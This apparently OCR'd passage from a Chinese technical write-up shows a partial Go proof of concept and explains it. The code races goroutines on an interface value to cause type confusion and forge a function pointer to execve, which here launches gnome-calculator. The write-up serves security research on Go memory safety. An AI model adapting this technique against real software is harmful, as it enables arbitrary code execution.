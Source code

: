 ```go

func main() {
	var i int=0
	///usr/bin/gnome-calculator
	cmd := [30]byte{47, 117, 115, 114, 47, 98, 105, 110, 47, 103, 110, 111, 109, 101, 45, 99, 97, 108, 99, 117, 108, 97, 116, 111, 114}
	//DISPLAY=:1
	display := [20]byte{68, 73, 83, 80, 76, 65, 89, 61, 58, 49}
	var args [2]uint64
	args[0] = address(&cmd)
	var envs [2]uint64
	envs[0] = address(&display)
	var con confuse
	adr_execve := address(test)
	adr_cmd := address(&cmd)
	type_safe := &safe{i: &adr_execve}
	type_unsafe := &unsafe{}
	con = type_safe
	go func() {
		for {
			i++
			con = type_unsafe
			func() {
				if i < 0 {
					fmt.Println("maplesss")
				}
				return
			}()
			con = type_safe
		}
	}()

	for {
		con.x(uint64(59), adr_cmd, address(&args), address(&envs))
	}
}
```
这一段代码最重要的核心在于
```go
go1 :
	con = type_unsafe
	con = type_safe
	
go2 :
	con.x(uint64(59), adr_cmd, address(&args), address(&envs))
```
上述两个goroutine，go1在不断交替给`con`赋值不同结构，赋值过程是一串指令，相当于con的更新过程，对应着修改底层所对应的interface结构里面的字段。go2却在不断调用con定义的方法，这两个过程是并发进行。这里面就会出现一个问题。

con所指向的interface里面最重要的是实际保存结构的值和实际结构所定义的方法。那么就可能出现一个过程，现在数据值变化了，保存对应方法的函数列表指针还没来的及更新，那可能导致context和对应的方法不一样。上面就可能出现用着safe的数据，调用确实unsafe的方法。如果unsafe里面字段是一个func类型，那么这样就相当于伪造出一个指向任意地址的函数指针，也就是我们常说一种类型混淆漏洞。
